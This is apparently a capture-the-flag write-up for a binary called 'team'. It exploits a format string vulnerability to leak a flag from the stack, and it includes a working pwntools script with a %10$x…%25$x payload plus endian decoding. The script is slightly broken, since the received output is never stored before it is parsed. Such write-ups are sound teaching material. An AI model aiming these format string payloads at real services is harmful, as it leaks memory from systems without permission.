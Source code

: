 # team 600pts 

##Overview
To start, disassembling the program reveals a format string
vulnerability when it prints the team name.
After much trial and error and not doing anything right at all,
I noticed that using many %x.%x.%x.%x.....%x would essentially 
dump the stack for you. Because I had a poor flag locally,
(a flag.txt file is needed in the same directory to do this chal)
that wasn't extrememly noticable, it took me a long time to realize
the flag was being dumped to the terminal. It was just in little/big 
endian (don't remember which is which) and hex. So copy the values 
from the output, reverse each byte, convert to ascii and you've got 
the flag. 

By observing where your flag was located in the outputted data, you 
could see the flag began 10 words from the beginning of the dump. 
Therefore, using %10$x would cause the 10th value on the stack to be 
printed or the first word of the flag. We now can hardcode exactly 
where the flag will be. The flag is printed in hex, there are 256 
bits in the flag (i.e. 32 bytes or 64 hex characters) so we will 
need to use 16 %x's to grab the entire flag. 

##Code
Import pwn tools, set the context appropriately and connect to 
the remote service. If this is being run on a linux computer, 
it will work locally if in the same directory as the team
executable. Note there also needs to be a flag file locally. 
Pwn tools will run the process and attach it to a port, 
simulating the contest environment quite nicely.
```python
from pwn import *
context(arch='i386', os='linux')

# Challenge originally hosted at hack.bckdr.in 8004
if 'HOST' in args:
    r = remote(args['HOST'], int(args['PORT']))
else:
    l = listen(0)
    l.spawn_process(['./team'])
    r = remote('localhost', l.lport)
```
Next we construct a teamname that will display the 16 words off the stack
that contain the flag. We send this as the teamname and can then 
send anything as the flag.
```python
teamname = "%10$x.%11$x.%12$x.%13$x.%14$x.%15$x.%16$x.%17$x.%18$x.%19$x.%20$x.%21$x.%22$x.%23$x.%24$x.%25$x"

flag = "Doesn't matter"

r.recvuntil("Enter teamname:")

print "[*] Sending teamname"
r.send(teamname + "\n")

r.recvuntil("Enter flag:")
print "[*] Sending flag"
r.send(flag + "\n")
```
We then receive the data containing the flag and 
strip away the unnecessary parts.
```python
f = flag.replace(" ", "").replace(":", "").split(".")
```
The values are backwards on the stack due to
endianness. We can use pwntools' p32() here 
to get the flag values. 
We could optionally 
hex decode the string and then invert it like
so: ```flag += str(i.decode("hex")[::-1])```
but I like pwntools so we'll use that.
```python
flag = ""
for i in f:
	flag += str(p32(int(i, 16)))

print "[*] Flag: " + flag
# RyanAiden
```
